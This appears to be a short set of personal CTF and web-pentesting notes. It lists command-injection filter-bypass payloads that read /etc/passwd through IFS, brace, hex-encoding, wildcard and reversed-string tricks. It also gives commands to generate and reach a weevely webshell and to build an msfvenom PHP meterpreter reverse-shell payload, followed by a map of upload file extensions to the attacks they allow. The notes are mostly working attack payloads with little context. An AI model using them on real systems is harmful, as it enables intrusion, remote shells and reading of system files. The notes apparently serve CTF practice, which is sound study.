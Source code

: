 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
                    -----------
                    - Reading files
                        $(<flag.txt)
                        cat < flag.txt

                        - &
                        - && (first command has to be successful)
                        - | (redirects output of the first command to the input of the second)
                        - || (first command has to fail) also 
                        - ;
                        - 

                        Bypass without space
                        	- cat</etc/passwd
                        	- {cat,/etc/passwd}
                        	- cat$IFS/etc/passwd
                            - $(cat</etc/passwd)
                        	- echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd

                        Bypass characters filter via hex encoding
                        	echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"  = /etc/passwd
                        	xxd -r -p <<< 2f6574632f706173737764 = /etc/passwd
                        	cat `xxd -r -p <<< 2f6574632f706173737764` = reading /etc/passwd

                        COMMENTS https://medium.com/@hninja049/command-injection-bypass-cheatsheet-4414e1c22c99
                        	cat /e"t"c/pa"s"swd
                        	cat /etc/pas??d
                        	cat /etc/pa*wd
                        	`echo "dwssap/cte/ tac" | rev`



            Webshells
                Creating-weevely generate passwordhere shell.php
                Acessing-weevely shellhttplocation passwordhere
                
            msfvenom -p php/meterpreter/reverse_tcp LHOST=ip LPORT=port -e php/base64 -f raw > shell.php


        FORMS
            html injection
            cross site scripting
            cross site request forgery
            sql injection

        File uploads
            Remote code execution
            Downloading of source code using php to read files
            SQL injection
            Replacing files in the server using path traversal eg logos
            XXE

            	File Extensions and their vulnerabilities
            	-----------------------------------------
	            ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
				SVG: Stored XSS / SSRF / XXE
				GIF: Stored XSS / SSRF
				CSV: CSV injection
				XML: XXE,SSRF
				AVI: LFI / SSRF
				HTML / JS : HTML injection / XSS / Open redirect
```
